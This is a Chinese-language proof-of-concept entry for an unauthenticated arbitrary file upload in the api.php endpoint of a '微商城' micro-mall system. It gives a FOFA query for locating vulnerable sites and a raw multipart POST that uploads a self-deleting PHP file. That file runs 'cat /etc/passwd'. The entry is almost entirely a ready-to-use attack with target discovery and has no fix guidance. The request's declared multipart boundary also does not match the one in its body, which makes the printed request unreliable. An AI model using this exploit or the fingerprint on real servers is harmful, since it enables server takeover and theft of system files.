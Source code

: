 # 微商城系统api.php存在文件上传漏洞

微商城系统 api.php 接口处存在任意文件上传漏洞，未经身份验证的攻击者可通过该漏洞在服务器端任意执行代码，写入后门，获取服务器权限，进而控制整个 web 服务器。

## fofa

```yaml
body="/Mao_Public/js/jquery-2.1.1.min.js"
```

## poc

```java
POST /api/api.php?mod=upload&type=1 HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryTqkdY1lCvbvpmown
 
------WebKitFormBoundaryaKljzbg49Mq4ggLz
Content-Disposition: form-data; name="file"; filename="rce.php"
Content-Type: image/png
 
<?php system("cat /etc/passwd");unlink(__FILE__);?>
------WebKitFormBoundaryaKljzbg49Mq4ggLz--
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408210938048.png)